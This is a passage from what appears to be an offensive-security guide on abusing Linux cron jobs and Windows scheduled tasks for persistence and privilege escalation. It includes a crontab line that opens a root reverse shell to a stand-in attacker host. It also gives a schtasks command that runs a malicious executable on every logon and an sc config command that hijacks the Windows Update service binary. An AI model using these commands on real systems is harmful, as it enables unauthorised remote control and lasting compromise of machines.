 - Modify the existing cron job to execute a malicious payload.

3. **Exploiting Misconfigured Permissions**
   Cron jobs are often stored in files with specific permissions. If these files are writable by a non-privileged user, they can be modified to run malicious code. Attackers can exploit this vulnerability to inject malicious commands into cron job files. For example, modifying `/etc/crontab` to include a malicious command:

```bash
* * * * * root /bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```

4. **Persistence via Cron Jobs**
   Cron jobs can be used for persistence. Even if an attacker's access is terminated, a cron job can be created to re-establish the attacker's connection or re-execute a payload at regular intervals. This ensures that the attacker maintains control over the system even after a reboot or a session termination.

## **Abusing Scheduled Tasks in Windows - Advanced Techniques**

### **A. Exploiting Event Triggers in Task Scheduler**

**Event Triggers** allow tasks to be triggered based on specific system events. Attackers can exploit this feature to run malicious code when certain events occur, such as:

- **At User Logon**: A task can be set to run when any user logs in.
- **On System Errors**: A task can be triggered when a specific error event occurs (e.g., Event ID 1000).

Example:

```powershell
schtasks /create /tn "MaliciousEventTrigger" /tr "C:\malicious.exe" /sc onevent /ec System /mo "*[System[Provider[@Name='Microsoft-Windows-Security-Auditing'] and (EventID=4624)]]"
```

This task will execute whenever a successful logon event (Event ID 4624) occurs.

### **B. Exploiting Services with Scheduled Tasks**

Sometimes, scheduled tasks are linked to system services. An attacker can modify a service to run malicious code via a scheduled task.

- **Exploiting Services like Windows Update**: If a service like Windows Update runs with high privileges, an attacker could modify the scheduled tasks associated with it to run malicious code.

Example:

```powershell
sc config wuauserv binPath= "C:\path\to\malicious.exe"
```

This command modifies the Windows Update service to execute malicious code instead of updating the system.

### **C. Abusing Task XML Files**
